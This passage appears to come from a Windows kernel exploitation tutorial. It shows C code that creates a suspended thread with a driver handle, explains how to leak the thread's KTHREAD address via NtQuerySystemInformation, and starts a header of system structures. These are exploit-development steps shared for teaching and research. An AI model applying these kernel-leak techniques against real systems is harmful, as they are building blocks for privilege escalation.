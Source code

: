 ```c

	//
	// Print update
	//
	printf("[+] Created the \"dummy thread\"!\n");

//
// Execution comes here if an error is encountered
//
exit:

	//
	// Return an error
	//
	return 1;
}
```

Now we have a thread that is running in a suspended state and a handle to the driver.

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI22.png" alt="">

Since we have a suspended thread running now, the goal currently is to leak the `KTHREAD` object associated with this thread, which is the kernel-mode representation of the thread. We can achieve this by invoking `NtQuerySystemInformation`. The first thing we need to do is add the structures required by `NtQuerySystemInformation` and then prototype this function, as we will need to resolve it via `GetProcAddress`. For this I just add a header file named `ntdll.h` - which will contain this prototype (and more structures coming up shortly).

```c
#include <Windows.h>
#include <Psapi.h>

typedef enum _SYSTEM_INFORMATION_CLASS
{
    SystemBasicInformation,
    SystemProcessorInformation,
    SystemPerformanceInformation,
    SystemTimeOfDayInformation,
    SystemPathInformation,
    SystemProcessInformation,
    SystemCallCountInformation,
    SystemDeviceInformation,
    SystemProcessorPerformanceInformation,
    SystemFlagsInformation,
    SystemCallTimeInformation,
    SystemModuleInformation,
    SystemLocksInformation,
    SystemStackTraceInformation,
    SystemPagedPoolInformation,
    SystemNonPagedPoolInformation,
    SystemHandleInformation,
    SystemObjectInformation,
    SystemPageFileInformation,
    SystemVdmInstemulInformation,
    SystemVdmBopInformation,
    SystemFileCacheInformation,
    SystemPoolTagInformation,
    SystemInterruptInformation,
    SystemDpcBehaviorInformation,
    SystemFullMemoryInformation,
    SystemLoadGdiDriverInformation,
    SystemUnloadGdiDriverInformation,
    SystemTimeAdjustmentInformation,
```